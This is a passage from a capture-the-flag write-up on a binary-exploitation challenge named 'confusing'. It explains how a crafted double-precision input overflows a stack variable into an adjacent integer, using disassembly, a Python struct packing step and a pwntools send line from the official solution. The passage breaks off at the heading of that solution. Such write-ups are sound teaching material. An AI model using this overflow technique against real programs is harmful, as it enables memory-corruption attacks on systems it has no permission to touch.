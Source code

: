 Using these lines, we can visualize the boundaries of each variable:

- *f*: `0x1 - 0x8`
- *z*: `0x9 - 0xC`
- *d*: `0xD - 0xE`
- *s*: `0xF - 0x12`

Thus, we can infer that, when *d* is set, the **next four bytes** will overflow and set the value of *z*.

As a side note, we can observe the same behavior based on the disassembly of the `confusing` binary itself, where *d* is loaded at *RBP-0x1E* and *z* is at *RBP-0x1C*.

```
$objdump -M intel -d ./confusing
...

0000000000001250 <main>:
...
    1254:       55                      push   rbp
    1255:       48 89 e5                mov    rbp,rsp
    1258:       48 83 ec 20             sub    rsp,0x20
...
    1286:       48 8d 45 e2             lea    rax,[rbp-0x1e]
...
    12f0:       83 7d e4 ff             cmp    DWORD PTR [rbp-0x1c],0xffffffff
```

Let's go back to the payload from earlier: *0x1934909090909090*. If we can manipulate four bytes after *1934*, we can effectively set *z*. With that in mind, let's set those four bytes to *0xff*, the bytes equivalent of -1 for signed values.

```
>>> struct.unpack('d', p16(13337) + b'\xff\xff\xff\xff\x90\x90')
(-7.007969861245233e-229,)
```

Then run it in the test application:

```
$ echo '-7.007969861245233e-229' | ./a.out
Value of z:  ffffffff  -1
```

So, we have set all four variables.

The official solution sets *z* in a similar manner. The only difference is the last two bytes&mdash;which, again, don't matter for the solution.

```python
conn.sendlineafter(b'Give me d: ', str(struct.unpack('d', p16(13337) + b'\xff\xff\xff\xff\xff\xfe')[0]).encode())
```

# The official solution

With all of this in mind, it's a breath of fresh air to read the published answer:
